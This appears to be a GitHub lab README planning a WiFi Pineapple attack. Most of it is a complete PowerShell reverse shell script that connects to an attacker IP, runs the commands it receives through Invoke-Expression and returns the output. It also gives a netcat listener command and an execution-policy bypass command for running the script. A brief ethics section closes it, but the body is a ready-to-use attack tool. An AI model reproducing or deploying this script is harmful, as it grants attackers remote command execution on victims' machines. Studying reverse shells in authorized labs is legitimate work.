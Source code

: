 # Plan

Keylogging lab through using a Wifi Pinapple
- use it to inject the Reverse Shell Script

### Components of a Reverse Shell

1. **Listener**: The attacking machine runs a service that listens for incoming connections.
2. **Reverse Shell Script**: The target machine runs a script that connects back to the listener and provides a shell interface.

### Step-by-Step Explanation of a PowerShell Reverse Shell Script

#### Step 1: Set Up a Listener on the Attacker Machine

On your attacking machine, you need to set up a listener that will wait for incoming connections. You can use `netcat` (nc) for this purpose:

```bash
nc -lvnp 4444
```

- `-l`: Listen mode.
- `-v`: Verbose mode.
- `-n`: No DNS resolution.
- `-p`: Local port.

This command tells `netcat` to listen on port 4444 for incoming connections.

#### Step 2: Create the Reverse Shell Script on the Target Machine

A simple PowerShell reverse shell script can be written as follows:

```powershell
# Define the IP address and port of the Raspberry Pi (attacker)
$attackerIP = "ATTACKER IP" #typically etho0
$port = 4444

try {
    # Create a new TCP client and connect to the attacker
    $client = New-Object System.Net.Sockets.TCPClient($attackerIP, $port)
    if (-not $client.Connected) {
        throw "Could not establish a connection to $attackerIP on port $port."
    }

    # Get the network stream
    $stream = $client.GetStream()
    if (-not $stream) {
        throw "Failed to get the network stream."
    }

    # Initialize stream writer and reader
    $writer = New-Object System.IO.StreamWriter($stream)
    $writer.AutoFlush = $true
    $buffer = New-Object System.Byte[] 1024
    $encoding = New-Object System.Text.AsciiEncoding

    while ($true) {
        try {
            # Send the current directory path as a prompt
            $writer.Write("PS " + (Get-Location).Path + "> ")

            # Read the command from the attacker
            $read = $stream.Read($buffer, 0, $buffer.Length)
            if ($read -le 0) {
                throw "Failed to read from the network stream."
            }
            $cmd = ($encoding.GetString($buffer, 0, $read)).Trim()

            # Execute the received command
            try {
                $result = (Invoke-Expression $cmd 2>&1 | Out-String)
            }
            catch {
                $result = $_.Exception.Message
            }

            # Send the result back to the attacker
            $writer.WriteLine($result)
            $writer.Flush()
        }
        catch {
            Write-Error "Error processing command: $_"
            break
        }
    }
}
catch {
    Write-Error "Critical error: $_"
}
finally {
    if ($client -and $client.Connected) {
        $client.Close()
    }
}

```

### Explanation of the PowerShell Script

1. **Establishing the Connection:**
    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4444)
    $stream = $client.GetStream()
    ```
    - `$client`: Creates a new TCP client object that connects to the attacker's IP on port 4444.
    - `$stream`: Retrieves the network stream used to send and receive data.

2. **Stream Writers and Encoders:**
    ```powershell
    $writer = New-Object System.IO.StreamWriter($stream)
    $writer.AutoFlush = $true
    $buffer = New-Object System.Byte[] 1024
    $encoding = New-Object System.Text.AsciiEncoding
    ```
    - `$writer`: A stream writer to send data to the attacker.
    - `$writer.AutoFlush = $true`: Ensures that the buffer is flushed automatically.
    - `$buffer`: A byte array buffer to read incoming data.
    - `$encoding`: ASCII encoding to convert bytes to strings and vice versa.

3. **Main Loop:**
    ```powershell
    while ($true) {
        $writer.Write("PS " + (Get-Location).Path + "> ")
        $read = $stream.Read($buffer, 0, $buffer.Length)
        $cmd = ($encoding.GetString($buffer, 0, $read)).Trim()
        try {
            $result = (Invoke-Expression $cmd 2>&1 | Out-String )
        }
        catch {
            $result  = $_.Exception.Message
        }
        $writer.WriteLine($result)
        $writer.Flush()
    }
    ```
    - `while ($true)`: An infinite loop to keep the connection open.
    - `$writer.Write("PS " + (Get-Location).Path + "> ")`: Sends the current PowerShell prompt to the attacker.
    - `$read = $stream.Read($buffer, 0, $buffer.Length)`: Reads incoming data from the stream into the buffer.
    - `$cmd = ($encoding.GetString($buffer, 0, $read)).Trim()`: Converts the buffer bytes to a string and trims whitespace.
    - `Invoke-Expression $cmd`: Executes the received command.
    - `2>&1 | Out-String`: Captures any errors and converts the output to a string.
    - `$writer.WriteLine($result)`: Sends the result back to the attacker.
    - `$writer.Flush()`: Ensures the output is sent immediately.

4. **Closing the Connection:**
    ```powershell
    $client.Close()
    ```
    - This line closes the TCP connection when the script ends (though in this infinite loop, it never reaches this point unless the script is interrupted).

### Putting It All Together

1. Start the listener on your attacker machine:
    ```bash
    nc -lvnp 4444
    ```

2. Run the PowerShell script on the target machine:
    - Save the script to a `.ps1` file, for example, `reverse_shell.ps1`.
    - Execute the script using PowerShell:
      ```powershell
      powershell -ExecutionPolicy Bypass -File reverse_shell.ps1
      ```

### Security and Ethical Considerations

- **Ethical Use**: Only use reverse shells in environments where you have explicit permission to do so, such as in penetration testing with prior authorization.
- **Security**: Reverse shells can be a significant security risk if misused. Ensure that you are following best practices for securing your systems and networks.
- **Legal**: Unauthorized access to computer systems is illegal and punishable by law. Always ensure that you have legal authorization before performing any activities involving reverse shells or other hacking tools.

By understanding the components and how they work, you can modify and create your own reverse shell scripts for legitimate and educational purposes.
